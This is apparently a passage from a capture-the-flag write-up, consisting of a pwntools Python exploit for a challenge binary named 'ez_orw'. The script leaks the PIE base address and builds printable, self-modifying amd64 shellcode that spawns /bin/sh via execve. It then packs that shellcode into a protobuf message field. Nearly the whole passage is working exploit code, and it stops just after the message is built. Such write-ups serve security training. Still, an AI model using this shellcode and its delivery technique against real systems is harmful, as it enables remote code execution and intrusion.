 ## EXPLOIT

```python
from pwn import *
import string
import ez_orw_pb2
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './ez_orw'
printable = bytes(string.printable, 'utf-8')

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote('', 9999)

    # run until protobuf msg input
    t.sendlineafter(b'DO U', b'0x0')
    t.sendlineafter(b'replenish\n', b'64') # set up shellcode max length
    pie_base = int(t.recv(14), 16) - 0x5008
    success(GOLD_TEXT(f'Got pie_base: {pie_base:#x}'))
    t.sendline(hex(pie_base + 0x3041).encode())

    code = '''
    // mov rbx, rax  # rax == shellcode
    push rax
    pop rbx
    // xor esi, esi; xor edx, edx
    push 0x20
    pop rax
    xor al, 0x20
    push rax
    push rax
    push rax
    pop rsi
    pop rdx
    // 2f2f -> 0f05
    push 0x20202020
    pop rcx
    xor word ptr [rbx + 0x20], cx
    // lea rdi, "/bin/sh"
    xor rax, qword ptr [rbx + 0x22]
    push rax
    push rsp
    pop rdi
    // mov eax, SYS_execve
    push 0x3b
    pop rax
    // syscall
    '''
    shellcode = asm(code) + b'\x2f\x25/bin/sh'
    assert len(shellcode) == 0x20 + 9 and all(byte in printable for byte in shellcode)
    message = ez_orw_pb2.Msgiao()
    message.giaoid = 0x114514
    message.giaosize = 0x415411
    message.giaotoken = b'87dd78e1-9025-4d57-9c2e-418608b3bbea'
    message.giaocontent = shellcode
    success(f'Sending shellcode {shellcode}')
```